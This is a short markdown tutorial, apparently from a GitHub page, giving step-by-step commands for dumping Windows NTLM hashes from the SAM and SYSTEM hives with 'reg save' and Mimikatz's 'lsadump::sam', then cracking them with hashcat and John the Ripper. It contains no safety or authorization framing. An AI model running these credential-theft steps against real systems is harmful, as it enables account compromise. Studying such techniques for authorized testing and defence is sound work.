 

**1\. Download and Run Mimikatz**

- Download Mimikatz from the official GitHub:  

-  [https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

- Run as an Administrator 



**2\. Dump NTLM Hashes from the SAM Database**

Windows stores NTLM hashes in the **SAM (Security Account Manager) database**.

- Dump SYSTEM & SAM Hives Using Reg Save:

```
reg save HKLM\SYSTEM C:\Users\pc\Desktop\SYSTEM
reg save HKLM\SAM C:\Users\pc\Desktop\SAM
```

- **Enable Debug Mode** (required for some operations):

```
privilege::debug
```

-  Then extract NTLM hashes from the saved SYSTEM and SAM files:

```
lsadump::sam /system:C:\Users\pc\Desktop\SYSTEM /sam:C:\Users\pc\Desktop\SAM
```



**3\. Crack NTLM Hashes with Hashcat or John the Ripper**

After extracting NTLM hashes, you can **crack them** using tools like **Hashcat** or **John the Ripper**.

- Save hashes to a file (`hashes.txt`) and use **Hashcat**:

```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt --force
```

- **Crack with John the Ripper**:

```
john --format=NT hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```